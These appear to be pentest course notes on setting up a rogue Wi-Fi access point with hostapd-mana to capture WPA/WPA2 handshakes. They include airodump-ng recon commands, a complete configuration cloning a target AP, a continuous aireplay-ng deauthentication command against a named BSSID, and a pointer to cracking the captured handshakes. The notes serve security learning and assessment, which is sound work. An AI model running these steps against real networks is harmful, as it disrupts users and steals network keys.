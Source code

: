 # 10. Rogue AP (Recon Target AP)

*AP in use that are not authorized by local network administrator*

*Takes the form of AP plugged into network without admin knowledge. Could also take form of maliciously-controlled AP that mimics existing approved AP*

**Purpose:** Create rogue AP and look for devices trying to connect to legit AP with same name.

**Scenario:** rogue AP is located near device and legit AP. Ideally device targeting is far enough away from intended AP that can make rogue AP more likely to be connected to

**Uses:** Grab WPA pre-shared keys

**Discovery**

Attacks more likely to succeed if match encryption details. Need to conduct recon against target to gather information

- Use airodump-ng to gather information about target
    
    `sudo airodump-ng -w discovery --output-format pcap wlan0mon`
    
- check its SSID, speed, and channel to recreate the information of the target AP
- After capturing for a bit, open the pcap file and filter for beacon packets using `wlan.fc.type_subtype == 0x08` and also ensure to include the filter for your target AP `&& wlan.ssid == "wifu"`

![Untitled](Untitled%205.png)

- tagged parameters
    - IEEEE 802.11 wireless management tree
        - Vendor specific: Microsoft corp.: WPA Information Element

the above section shows that AP supports WPA1 and existence of RSN information tells us that it also supports WPA2

Just from the pcap file, we are able to identify information about our target AP:

- It has an ESSID of Mostar
- It has a BSSID of FC:7A:2B:88:63:EF
- It uses WPA (TKIP/CCMP) and WPA2 (TKIP/CCMP)
- It uses a PSK
- It runs on channel 1

To create a Rogue AP, have to use hostapd-mana

- first setup the config file

```bash
cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
```

- Use the interface of the WIFI card
- SSID and channel must match the target AP
- set IEEE parameter to match target AP (`ieee80211n=1`) [802.11n]
- set hardware mode to ‘g’ to match 2.4GHz, set to ‘a’ for 5GHz

Next set wpa parameter to ‘3’, enables both WPA and WPA2:

```bash
cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
**wpa=3 (1 for WPA only, 2 for WPA2 only)
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP**
```

- set auth to PSK
- set key using wpa_passphrase [irrelevant]
- set TKIP/CCMP encryption w/ WPA1
- set wpa_pairwise to TKIP CCMP
- set rsn_pairwise to TKIP CCMP

Next set mana portion of hostapd-mana 

```bash
cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
**mana_wpaout=/home/kali/mostar.hccapx**
```

- mana_wpaout specifies where to save captured handshakes in hashcat hccapx format
- each handshake captured will be appended to the file

How to tackle WPA3 APs

![Untitled](Untitled%206.png)

**Capturing Handshakes**

Start hostapd-mana using `sudo hostapd-mana <config-file.conf>`

- doing so, will allow devices to connect to our AP instead of the real AP if our signal is stronger than original AP.
- Since PSK is not configured and is incorrect, the devices trying to connect will fail
- But what we want to capture is the WPA1/WPA2 handshake logged by hostapd-mana

![Untitled](Untitled%207.png)

- Sometimes clients might cling on to weak connection to the actual target AP.
    - can be fixed by deauthing the client using `aireplay-ng`
    - have to connect a new WIFI card and start monitor mode on channel 1 using airmon-ng. channel should match with target AP
    - next run command against all clients connected to AP using `-a`:
        
        `sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan0mon`
        
    - `-0 0` indicates deauth but continuously send deauth attack packets.
    

Summary:

Useful to capture during WIFI assessments to capture handshakes or to target clients far from AP. When targets tried to connect to AP, able to capture just enough of WPA handshake to crack using aircrack-ng